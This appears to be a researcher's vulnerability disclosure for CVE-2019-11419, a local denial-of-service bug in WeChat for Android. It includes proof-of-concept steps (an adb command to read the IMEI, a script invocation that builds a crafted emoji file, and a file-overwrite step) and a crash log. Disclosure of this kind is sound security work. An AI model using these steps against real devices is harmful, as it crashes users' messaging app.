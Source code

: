 ```yaml
---
title:  "[CVE-2019-11419] DoS Wechat with an emoji"
date:   2019-05-14 17:22:33 +0800
categories: Hacking
classes:
  - landing
---
```


This DoS bug was reported to Tencent, but they decided not to fix because it's not critical. The Common Vulnerabilities and Exposures (CVE) Program has assigned the ID CVE-2019-11419 to this issue. 

## Description:
vcodec2_hls_filter in libvoipCodec_v7a.so in WeChat application for Android results in a DoS by replacing an emoji file (under the /sdcard/tencent/MicroMsg directory) with a crafted .wxgf file.
Crash-log is provided in poc.zip file at https://drive.google.com/open?id=1HFQtbD10awuUicdWoq3dKVKfv0wvxOKS

## Vulnerability Type:
Denial of Service

## Vendor of Product:
Tencent

## Affected Product Code Base:
WeChat for Android - Up to latest version (7.0.3)

## Affected Component:
Function vcodec2_hls_filter in libvoipCodec_v7a.so

## Attack Type:
Local

## Attack vector:
An malware app can crafts a malicious emoji file and overwrites the emoji files under `/sdcard/tencent/MicroMsg/[User_ID]/emoji/[WXGF_ID]`. Once the user opens any chat messages that contain an emoji, WeChat will instantly crash.

## POC:
Video at https://drive.google.com/open?id=1x1Z3hm4j8f4rhv_WUp4gW-bhdtZMezdU

- User must have sent or received a GIF file in WeChat
- Malware app must retrieve the phone's IMEI. For POC, we can use the below command
```
adb shell service call iphonesubinfo 1 | awk -F "'" '{print $2}' | sed '1 d' | tr -d '.' | awk '{print}' ORS=- 
```
- Produce the malicious emoji file with the retrieved IMEI (use encrypt_wxgf.py in poc.zip):
```
python encrypt.py crash4.wxgf [SIZE_OF_EMOJI_ON_SDCARD]
```
- Replace /sdcard/tencent/MicroMsg/[User_ID]/emoji/[WXGF_ID] with the padded out.wxgf.encrypted
- WeChat will crash now if a message that contains the overwritten emoji file

Crash log:
```
Process:            com.tencent.mm
Crash Thread:       27374(total:122)
Date/Time:          2108-12-12 +8.00 13:34:50.135
Live Time:          35s
Device:             Pixel 2 XL android-27
Exception info:    
Siginfo:            errno:0, pid:0, uid:0, process:
after unwind signal thread
*** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
Build fingerprint: google/taimen/taimen:8.1.0/OPM4.171019.021.R1/4833808:user/release-keys
pid: 27147, tid: 27374  >>> com.tencent.mm <<<
signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 00000000
after dump thread backtrace
  #00  pc 0x0  <unknown> (???)
  #01  pc 0x1f739b  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (vcodec2_hls_filter+546)
  #02  pc 0x1f8efb  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (vcodec2_hls_filters+134)
  #03  pc 0x1efa5d  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (???)
  #04  pc 0x1ea94f  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (v2codec_default_execute+30)
  #05  pc 0x1f1c59  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (???)
  #06  pc 0x1eaa49  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (v2codec_decode_video2+120)
  #07  pc 0x1e375d  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (Vcodec2DecodeMultipleNals+176)
  #08  pc 0x1e510f  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (CWxAMDecoder::decodeColorComponents(unsigned char*, int)+70)
  #09  pc 0x1e5791  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (CWxAMDecoder::add_buffer(unsigned char*, int, int, StWxAMFrame**)+228)
  #10  pc 0x1e5995  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (wxam_dec_decode_buffer_3+12)
  #11  pc 0x4c435  /data/app/com.tencent.mm-XUPZwNZyUC6RN4utDMIYMw==/lib/arm/libwechatcommon.so (Java_com_tencent_mm_plugin_gif_MMWXGFJNI_nativeDecodeBufferFrame+148)
  ...
```
